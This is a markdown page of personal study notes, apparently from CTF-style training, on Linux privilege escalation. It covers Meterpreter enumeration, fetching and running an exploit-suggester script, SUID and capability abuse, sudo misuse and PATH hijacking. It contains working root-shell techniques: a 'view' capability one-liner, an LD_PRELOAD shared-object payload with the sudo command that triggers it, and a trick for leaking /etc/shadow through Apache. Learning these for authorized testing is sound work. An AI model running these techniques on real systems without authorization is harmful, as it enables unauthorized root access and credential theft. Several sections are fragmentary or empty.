

# Linux

## Compatibility issues


Another method to overcome compatibility issues is to obtain a standard Ubuntu Server 18.04 bash executable, the same as the server's- as we know from our nmap scan. You can download it [here](https://github.com/TheRealPoloMints/Blog/blob/master/Security%20Challenge%20Walkthroughs/Networks%202/bash). If you want to download it via the command line, be careful not to download the github page instead of the raw script. You can use `wget https://github.com/polo-sec/writing/raw/master/Security%20Challenge%20Walkthroughs/Networks%202/bash`. 


## Metasploit post modules

Scanning privli escalation vulnera

<pre><code><strong>meterpreter> run post/multi/recon/local_exploit_suggester
</strong></code></pre>

## Enumeration

| Command                       | Description                                                                                                                                                                                                                                                                      |
| ----------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `getprivs`                    | see what privileges we have                                                                                                                                                                                                                                                      |
| <kbd>sysinfo</kbd>            | information about the system                                                                                                                                                                                                                                                     |
| `getuid`                      | Zero uid on linux is always the Root user                                                                                                                                                                                                                                        |
| <h4><code>sudo -l</code></h4> | <p>The target system may be configured to allow users to run some (or all) commands with root privileges.This command will show which porgrams the user can run</p><div><figure><figcaption></figcaption></figure></div> |
| <h4><code>Id</code></h4>      | <p>The <code>id</code> command will provide a general overview of the user’s privilege level and group memberships.</p><p><br></p>                                                                                                                                               |
| <h4><code>history</code></h4> | Looking at earlier commands with the `history` command can give us some idea about the target system and, albeit rarely, have stored information such as passwords or usernames.                                                                                                 |

## Scripts

## &#x20;LES

LES tool is designed to assist in detecting security deficiencies for a given Linux kernel/Linux-based machine. It provides following functionality:

### **How to use**



### Opening temp directory

```bash
cd /tmp
```



### Uploading LES

```bash
meterpreter > upload <stored location/script.sh>  OR File server wget
```



### Opening shell&#x20;

```
meterpreter > shell
```



### Better shell

```
/bin/bash -i
```



### Give executable permissions

```bash
chmod +x <file>
```



### Execute

```bash
./file.sh
```



### After  results select vulnerability

Open website vulnerability and follow guide how to use it and may need to upload it to the target:Imporant always when uploading file we need to give execute perms and run it with ./file





#### &#x20;Quick download

```
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh
```

## LinPEAS&#x20;



&#x20;**Linuxprivchecker**\





## Cron jobs


## SUID

Much of Linux privilege controls rely on controlling the users and files interactions. This is done with permissions. By now, you know that files can have read, write, and execute permissions. These are given to users within their privilege levels. This changes with SUID (Set-user Identification) and SGID (Set-group Identification). These allow files to be executed with the permission level of the file owner or the group owner, respectively.

`find / -type f -perm -04000 -ls 2>/dev/null` will list files that have SUID or SGID bits set.

| Part           | Meaning                                                                                        |
| -------------- | ---------------------------------------------------------------------------------------------- |
| `find /`       | Start searching **from the root directory (`/`)** — i.e., search the whole filesystem.         |
| `-type f`      | Only look for **files** (not directories, links, etc.).                                        |
| `-perm -04000` | Match files that have the **SUID (Set User ID)** permission bit set.                           |
| `-ls`          | For each match, **list detailed information** (similar to `ls -l`).                            |
| `2>/dev/null`  | Redirect **error messages** (like "Permission denied") to `/dev/null` — i.e., **hide errors**. |

Then we find binaries we exploit not all from results can. List in website below **catalog of Unix binaries (and how to abuse them)** and we use  that file to run commads.



Example base64

```bash
LFILE=file_we_want_to_read
./base64 "$LFILE" | base64 --decode
```

#### 🕳️ **What `/dev/null` Is**

`/dev/null` is a **special device file** that acts like a **black hole** for data.\
Anything you write to it just **disappears** — it’s not stored anywhere, not logged, nothing.

Think of it as a “**trash can for data**” or a “**data sink**.”

**SUID** = **Set User ID**.

When the SUID bit is set on an **executable file**, anyone who runs that program temporarily gains the **user ID (UID)** of the file’s _owner_ while the program runs.

Most commonly the owner is `root`, so a program with SUID owned by root will run **with root privileges** for the duration of its execution — even if a regular user launched it.

## Capabilities

Another method system administrators can use to increase the privilege level of a process or binary is “Capabilities”. Capabilities help manage privileges at a more granular level. For example, if the SOC analyst needs to use a tool that needs to initiate socket connections, a regular user would not be able to do that. If the system administrator does not want to give this user higher privileges, they can change the capabilities of the binary. As a result, the binary would get through its task without needing a higher privilege user.

```bash
getcap -r / 2>/dev/null
```

From results we view the capabilities each file has and what we can use  and then we use GTFObins searching the program then selecting capabilites and it will show to exploit it.

These are powerful and often lead to privilege escalation or dangerous actions if misused:

* `cap_sys_admin` — **very powerful** (almost like root for many operations).
* `cap_net_admin`, `cap_net_raw` — raw networking (can sniff/forge packets, open raw sockets).
* `cap_sys_module` — load/unload kernel modules.
* `cap_dac_override`, `cap_dac_read_search` — bypass filesystem read/search permission checks.
* `cap_setuid`, `cap_setgid` — change UIDs/GIDs.
* `cap_sys_ptrace` — can ptrace other processes (can lead to credential theft).
* `cap_sys_chroot` — change root directory (useful for escape/persistence).
* `cap_fowner`, `cap_fsetid` — file ownership/permission bypasses.

**Example**&#x20;

Program view

```
./view -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```

## Sudo

The sudo command, by default, allows you to run a program with root privileges. Under some conditions, system administrators may need to give regular users some flexibility on their privileges. For example, a junior SOC analyst may need to use Nmap regularly but would not be cleared for full root access. In this situation, the system administrator can allow this user to only run Nmap with root privileges while keeping its regular privilege level throughout the rest of the system


Any user can check its current situation related to root privileges using the `sudo -l` command.We run this command and see our privs show we can know what we can and what we run.We see what we can run programs and also we can use this programs to get higher shell.The website below we tell us what command we can run using that program.


<figure><figcaption></figcaption></figure>

[https://gtfobins.github.io/](https://gtfobins.github.io/) is a valuable source that provides information on how any program, on which you may have sudo rights, can be used.

### Leverage application functions

Some applications will not have a known exploit within this context. Such an application you may see is the Apache2 server.

In this case, we can use a "hack" to leak information leveraging a function of the application. As you can see below, Apache2 has an option that supports loading alternative configuration files (`-f` : specify an alternate ServerConfigFile).

<figure><figcaption></figcaption></figure>

Loading the `/etc/shadow` file using this option will result in an error message that includes the first line of the `/etc/shadow` file.

### Leverage LD\_PRELOAD

On some systems, you may see the LD\_PRELOAD environment option.

<figure><figcaption></figcaption></figure>

LD\_PRELOAD is a function that allows any program to use shared libraries. This [blog post](https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/) will give you an idea about the capabilities of LD\_PRELOAD. If the "env\_keep" option is enabled we can generate a shared library which will be loaded and executed before the program is run. Please note the LD\_PRELOAD option will be ignored if the real user ID is different from the effective user ID.\


The steps of this privilege escalation vector can be summarized as follows;

1. Check for LD\_PRELOAD (with the env\_keep option)
2. Write a simple C code compiled as a share object (.so extension) file
3. Run the program with sudo rights and the LD\_PRELOAD option pointing to our .so file

File from c by compiling it with

`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`


&#x20;add the -static flag when compiling with gcc if you have a GLIBC version issue.


<pre class="language-c"><code class="lang-c"><strong>#The C code will simply spawn a root shell and can be written as follows;
</strong>
#include &#x3C;stdio.h>
#include &#x3C;sys/types.h>
#include &#x3C;stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
</code></pre>

We can save this code as shell.c and compile it using gcc into a shared object file using the following parameters;

We can now use this shared object file when launching any program our user can run with sudo. In our case, Apache2, find, or almost any of the programs we can run with sudo can be used.

We need to run the program by specifying the LD\_PRELOAD option, as follows;

Use any command this example we use find

`sudo LD_PRELOAD=/home/user/ldpreload/shell.so find`

`sudo LD_PRELOAD=/path/path/path/shell.so find or command/program path`



## PATH

If a folder for which your user has write permission is located in the path, you could potentially hijack an application to run a script. PATH in Linux is an environmental variable that tells the operating system where to search for executables. For any command that is not built into the shell or that is not defined with an absolute path, Linux will start searching in folders defined under PATH. (PATH is the environmental variable we're talking about here, path is the location of a file).

```bash
env | grep PATH
```

* `env` — prints all environment variables.
* `grep PATH` — shows lines containing `PATH` (usually `PATH` and maybe `LD_LIBRARY_PATH` or similar).


